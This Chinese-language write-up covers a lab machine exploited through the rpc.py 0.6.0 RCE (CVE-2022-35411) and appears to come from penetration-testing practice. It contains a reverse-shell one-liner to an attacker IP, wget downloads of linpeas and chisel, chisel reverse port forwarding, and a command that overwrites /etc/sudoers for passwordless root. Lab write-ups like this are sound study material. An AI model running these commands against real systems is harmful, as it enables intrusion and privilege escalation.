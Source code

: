 ```yaml
---
description: Linux / 中等难度 / rpc.py 0.6.0 RCE
---
```


# ✔️ PC

## 建立立足点

### 信息收集

* 使用Nmap对目标开放端口进行扫描，发现2个开放端口：22和8000

<figure><img src="../.gitbook/assets/1 (17).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 从Nmap扫描结果也可直接得知，发现8000端口就是一个终端：

<figure><img src="../.gitbook/assets/2 (19).png" alt=""><figcaption></figcaption></figure>

* 将shell回连到自己的Kaili机器上，方便后续操作：

```bash
# Kali
nc -lvnp 5555
# 目标主机
sh -i >& /dev/tcp/192.168.45.154/5555 0>&1
```

<figure><img src="../.gitbook/assets/3 (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/4 (18).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 传linpeas.sh到目标系统进行信息收集：

```bash
# Kali目录下开启服务器
pyhton3 -m http.server 8888
# 目标主机
wget http://192.168.45.154:8888/linpeas.sh /home/user/linpeas.sh
```

<figure><img src="../.gitbook/assets/5 (19).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
关于linpeas所收集到的可能可被利用的CVE漏洞是具有参考意义的，但并非每次都能成功作用于当前的目标系统，还需要结合目标系统实际的具体情况，仔细查看各项输出信息，再做判断。（兔子洞很容易出现在这个阶段，就像本例就没有利用到那些建议的CVE）
{% endhint %}

* 本例中，从linpeas的输出信息可得知还有两个活动的开放端口（53和65432）是之前Nmap阶段并没有扫描出来的，因此可以重点关注一下：

<figure><img src="../.gitbook/assets/6 (18).png" alt=""><figcaption></figcaption></figure>

* 在查看以root权限运行的进程时，发现有一个\`rpc.py\`的脚本是运行在/opt目录下的，该目录并不是安装默认应用程序的文件夹：

<figure><img src="../.gitbook/assets/7 (17).png" alt=""><figcaption></figcaption></figure>

* 查看一下该脚本发现它是运行在当前目标系统的65432端口上的，又是65432：

<figure><img src="../.gitbook/assets/8 (16).png" alt=""><figcaption></figcaption></figure>

* 因为之前的扫描无法得知端口65432上运行的关于服务的具体信息，所以决定使用chisel对该端口进行反向端口转发，再用Nmap扫出关于它的详细信息：

```bash
# Kali机器和目标系统机器都需要安装相同版本的chisel
# 本例下载的是chisel linux 1.9.1版本的，将该工具传入目标系统中
wget http://192.168.45.154:8888/chisel /home/user/chisel
chmod +x chisel
```

<figure><img src="../.gitbook/assets/9 (15).png" alt=""><figcaption></figcaption></figure>

* 在Kali机器上开启chisel服务器，监听好端口：

```bash
chisel server -p 7777 --reverse
```

<figure><img src="../.gitbook/assets/10 (17).png" alt=""><figcaption></figcaption></figure>

* 然后在目标系统上开启chisel的客户端，并设置端口转发各个参数后运行：

```bash
chisel client 192.168.xx.xxx:7777 R:65432:127.0.0.1:65432
```

<figure><img src="../.gitbook/assets/11 (16).png" alt=""><figcaption></figcaption></figure>

* 此时Kali主机的服务端应该已经有了转发成功的数据流，可确认一下是否真的成功：

```bash
netstat -tulnp
```

<figure><img src="../.gitbook/assets/12 (16).png" alt=""><figcaption></figcaption></figure>

* 现在就可以用Nmap对Kali机器上的65432端口进行扫描，以获取该端口上运行的服务的详细信息了：

```bash
nmap -sC -sV -p 65432 127.0.0.1 -A -sT
```

<figure><img src="../.gitbook/assets/13 (15).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据Nmap输出信息，没有发现什么东西，所以直接尝试搜索\`rpc.py\`的漏洞利用，发现了一个远程代码执行的漏洞：

<figure><img src="../.gitbook/assets/14 (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/15 (9).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 阅读代码后，发现可将\`exec\_command()\`函数中的内容直接修改为自己需要的命令：

<figure><img src="../.gitbook/assets/16 (10).png" alt=""><figcaption></figcaption></figure>

* 将此处命令修改为可以让user用户无需密码即可以root权限运行各个命令：

```bash
'echo "user ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
```

<figure><img src="../.gitbook/assets/17 (10).png" alt=""><figcaption></figcaption></figure>

* 这个脚本是直接在exploitdb里下载的，里面每个=后面都有个\`3D\`的乱码得删掉，才能执行成功。

### ROOT

* 修改好后的脚本传入目标机器，赋予执行权限，直接运行该脚本即可提权成功：

<figure><img src="../.gitbook/assets/18 (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/19 (9).png" alt=""><figcaption></figcaption></figure>

* 获取flag：

<figure><img src="../.gitbook/assets/20 (11).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例以为又是一个评级过高的简单机器，因为该机器并没有GET SHELL的过程。在之后的提权阶段需要涉及到反向端口转发和仔细的进行信息枚举，才能发现可被利用的漏洞。

CVE-2022-35411
{% endhint %}
